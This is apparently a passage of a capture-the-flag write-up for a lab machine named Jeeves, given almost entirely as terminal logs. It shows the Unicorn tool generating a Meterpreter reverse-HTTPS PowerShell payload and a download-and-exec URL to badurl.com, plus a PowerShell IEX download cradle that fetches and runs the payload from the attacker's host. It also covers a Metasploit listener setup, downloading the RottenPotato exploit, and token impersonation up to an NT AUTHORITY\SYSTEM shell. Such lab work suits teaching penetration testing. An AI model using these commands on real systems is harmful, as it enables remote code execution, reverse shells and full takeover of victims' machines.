                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


-------------------- Magic Unicorn Attack Vector v3.1 -----------------------------

Native x86 powershell injection attacks on any Windows platform.
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help

root@kali:~/jeeves/www/unicorn#
root@kali:~/jeeves/www/unicorn# python unicorn.py windows/meterpreter/reverse_https 10.10.14.16 443
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
                                      `__/\_ --(/|___/-/
                                   \|\_-\___ __-_`- /-/ \.
                                  |\_-___,-\_____--/_)' ) \
                                   \ -_ /     __ \( `( __`\|
                                   `\__|      |\)\ ) /(/|
           ,._____.,            ',--//-|      \  |  '   /
          /     __. \,          / /,---|       \       /
         / /    _. \  \        `/`_/ _,'        |     |
        |  | ( (  \   |      ,/\'__/'/          |     |
        |  \  \`--, `_/_------______/           \(   )/
        | | \  \_. \,                            \___/\
        | |  \_   \  \                                 \
        \ \    \_ \   \   /                             \
         \ \  \._  \__ \_|       |                       \
          \ \___  \      \       |                        \
           \__ \__ \  \_ |       \                         |
           |  \_____ \  ____      |                        |
           | \  \__ ---' .__\     |        |               |
           \  \__ ---   /   )     |        \              /
            \   \____/ / ()(      \          `---_       /|
             \__________/(,--__    \_________.    |    ./ |
               |     \ \  `---_\--,           \   \_,./   |
               |      \  \_ ` \    /`---_______-\   \\    /
                \      \.___,`|   /              \   \\   \
                 \     |  \_ \|   \              (   |:    |
                  \    \      \    |             /  / |    ;
                   \    \      \    \          ( `_'   \  |
                    \.   \      \.   \          `__/   |  |
                      \   \       \.  \                |  |
                       \   \        \  \               (  )
                        \   |        \  |              |  |
                         |  \         \ \              I  `
                         ( __;        ( _;            ('-_';
                         |___\        \___:            \___:


aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=


Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave

Happy Magic Unicorns.

[********************************************************************************************************]

				-----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

[*******************************************************************************************************]

[*] Exported powershell output code to powershell_attack.txt.
[*] Exported Metasploit RC file as unicorn.rc. Run msfconsole -r unicorn.rc to execute and create listener.


root@kali:~/jeeves/www/unicorn# wc -l powershell_attack.txt
0 powershell_attack.txt
root@kali:~/jeeves/www/unicorn# vi powershell_attack.txt
root@kali:~/jeeves/www/unicorn# ls
CHANGELOG.txt  CREDITS.txt  LICENSE.txt  powershell_attack.txt  README.md  unicorn.py  unicorn.rc
root@kali:~/jeeves/www/unicorn#
```

```sh
root@kali:~/jeeves/www/unicorn# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.63 - - [28/May/2018 02:18:57] "GET /powershell_attack.txt HTTP/1.1" 200 -
```

```sh
PS share1:\> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/powershell_attack.txt')
```

```sh
root@kali:~/jeeves# wget https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe
--2018-05-28 02:16:24--  https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe
Resolving github.com (github.com)... 192.30.255.112, 192.30.255.113
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/foxglovesec/RottenPotato/master/rottenpotato.exe [following]
--2018-05-28 02:16:25--  https://raw.githubusercontent.com/foxglovesec/RottenPotato/master/rottenpotato.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.52.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.52.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 679936 (664K) [application/octet-stream]
Saving to: ‘rottenpotato.exe’

rottenpotato.exe                                   100%[================================================================================================================>] 664.00K   887KB/s    in 0.7s

2018-05-28 02:16:26 (887 KB/s) - ‘rottenpotato.exe’ saved [679936/679936]

root@kali:~/jeeves#
```

```sh
root@kali:~/jeeves# cp rottenpotato.exe www/
```

```sh
root@kali:~/jeeves/www/unicorn# cat unicorn.rc
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.14.16
set LPORT 443
set ExitOnSession false
set EnableStageEncoding true
exploit -j
root@kali:~/jeeves/www/unicorn#
```

```sh
root@kali:~/jeeves/www/unicorn# msfconsole -q
msf > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST 10.10.14.16
LHOST => 10.10.14.16
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
msf exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://10.10.14.16:443

msf exploit(multi/handler) >
[*] https://10.10.14.16:443 handling request from 10.10.10.63; (UUID: csb0zof8) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.14.16:443 handling request from 10.10.10.63; (UUID: csb0zof8) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.16:443 -> 10.10.10.63:49686) at 2018-05-28 02:19:11 -0400

msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  JEEVES\kohsuke @ JEEVES  10.10.14.16:443 -> 10.10.10.63:49686 (10.10.10.63)

msf exploit(multi/handler) >
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > pwd
\\10.10.14.16\myshare
meterpreter > dir
Listing: \\10.10.14.16\myshare
==============================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100666/rw-rw-rw-  2846    fil   2017-09-18 13:43:17 -0400  CEH.kdbx
100666/rw-rw-rw-  600580  fil   2018-05-28 01:08:34 -0400  PowerUp.ps1
100666/rw-rw-rw-  318     fil   2018-05-28 01:28:18 -0400  keepass.txt
100666/rw-rw-rw-  314     fil   2018-05-28 01:38:56 -0400  keepass2.txt
100666/rw-rw-rw-  4403    fil   2018-05-28 00:59:51 -0400  rev.ps1
100777/rwxrwxrwx  679936  fil   2018-05-28 02:22:00 -0400  rottenpotato.exe
40777/rwxrwxrwx   4096    dir   2018-05-28 02:15:28 -0400  unicorn

meterpreter >
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens
Usage: list_tokens <list_order_option>

Lists all accessible tokens and their privilege level

OPTIONS:

    -g        List tokens by unique groupname
    -u        List tokens by unique username

meterpreter >
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
JEEVES\kohsuke

Impersonation Tokens Available
========================================
No tokens available

meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\Local account
NT AUTHORITY\LogonSessionId_0_116946
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization

Impersonation Tokens Available
========================================
No tokens available

meterpreter >
meterpreter > impersonate_token "BUILTIN\\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2968 created.
Channel 2 created.
'\\10.10.14.16\myshare'
CMD.EXE was started with the above path as the current directory.
UNC paths are not supported.  Defaulting to Windows directory.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows>whoami
whoami
nt authority\system

C:\Windows>
```

###### Reference

- [`ippsec`](https://www.youtube.com/watch?v=EKGBskG8APc)